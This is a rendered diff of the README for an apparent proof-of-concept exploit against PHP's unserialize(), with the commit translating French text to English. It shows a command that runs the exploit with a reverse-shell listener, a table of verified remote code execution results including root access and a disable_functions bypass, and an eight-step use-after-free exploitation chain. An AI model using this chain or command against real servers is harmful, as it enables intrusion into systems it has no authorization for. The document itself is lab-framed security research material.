

Before and after one commit to DevAli00/RCE-POCKET-POC-for-PHP2SHELL, a Markdown page: README.md, the part around one of its changes. Rendered like a GitHub page.

````diff
--- a/README.md
+++ b/README.md
@@ -64,38 +64,38 @@ cd LAB
 python3 POCKETPOC-PHP2SHELL.py --url http://172.20.10.5:8486/remote_app.php --reverse 172.20.10.5:4444
 ```
 
-## Résultats vérifiés (php:8.5.11)
+## Verified results (php:8.5.11)
 
-| Chaîne | Requêtes | Résultat |
+| Chain | Requests | Result |
 |---|---|---|
-| C: HTTP | 2 169 | www-data RCE |
-| C: HTTPS | 2 169 | www-data RCE |
-| E: HTTP | 2 281 | www-data RCE |
-| E: HTTPS | 2 175 | www-data RCE |
-| C: / E: local | - | root, `disable_functions` contourné |
+| C: HTTP | 2,169 | www-data RCE |
+| C: HTTPS | 2,169 | www-data RCE |
+| E: HTTP | 2,281 | www-data RCE |
+| E: HTTPS | 2,175 | www-data RCE |
+| C: / E: local | - | root, `disable_functions` bypassed |
 
-## La chaîne en huit étapes
+## The chain in eight steps
 
-1. gadget `unserialize($data)->x = 0;` (porte C:) ou autoload d'enum (porte E:)
-2. payload `a:41:{...}` : porte + stdClass 8 props + 32 sprays + `R:4..11`
-3. resize 8 vers 16 : `efree()` de l'arData, slots 4..11 pointent dedans (UAF)
-4. reclaim : les sprays de 280 octets réoccupent le bin-320 libéré
-5. leak heap : write-through `R:N` d'un pointeur `zend_reference`
-6. `uaf_read(addr, n)` : fausse `IS_STRING` positionnée n'importe où
-7. closure factice : `ce`, `handlers`, `func.handler = zif_system` (résolu
-   dans la table statique du module, d'où le contournement de `disable_functions`)
-8. dispatch : `$result[33]("id")` en local ; `serialize()` + vtable factice
-   `system()` à distance
+1. `unserialize($data)->x = 0;` gadget (`C:` entry point) or enum autoload (`E:` entry point)
+2. `a:41:{...}` payload: entry point + stdClass with 8 properties + 32 sprays + `R:4..11`
+3. resize from 8 to 16: `efree()` releases arData; slots 4..11 point into it (UAF)
+4. reclaim: the 280-byte sprays reclaim the freed bin-320
+5. heap leak: write-through via `R:N` of a `zend_reference` pointer
+6. `uaf_read(addr, n)`: fake `IS_STRING` positioned at an arbitrary address
+7. fake closure: `ce`, `handlers`, `func.handler = zif_system` (resolved in the
+   module's static function table, thereby bypassing `disable_functions`)
+8. dispatch: `$result[33]("id")` locally; `serialize()` + fake vtable invoking
+   `system()` remotely
 
-## Avertissement
+## Warning
 
-Le bug n'est exploitable que si l'application cible passe des données attaquables
-à `unserialize()`. Contre un tiers : autorisation écrite + crash-DoS ROE. Ce
-dépôt est un lab : ne l'exposez que sur des réseaux contrôlés, refermez-le
-avec `./run.sh down` après usage.
+The bug is exploitable only when the target application passes attacker-controlled
+data to `unserialize()`. Testing a third party requires written authorization and
+crash-DoS rules of engagement. This repository is a lab: expose it only on controlled
+networks, and shut it down with `./run.sh down` after use.
 
-Crédits recherche : Calif (MAD Bugs, PoC C: public), Nicolas Grekas (GH-23981,
-branche E:). Variantes E:,
+Research credits: Calif (MAD Bugs, public `C:` PoC), Nicolas Grekas (GH-23981,
+`E:` branch). `E:` variants.
 
-POC author : Karim BOUDRA @ ULTRADEFENSE LAB.
-Greetings : CYBERSEC TEAM / ULTRADEFENSE TEAM
+PoC author: Karim BOUDRA @ ULTRADEFENSE LAB.
+Greetings: CYBERSEC TEAM / ULTRADEFENSE TEAM.
````
Also changed, not shown: other parts of README.md (+41 -41 lines).
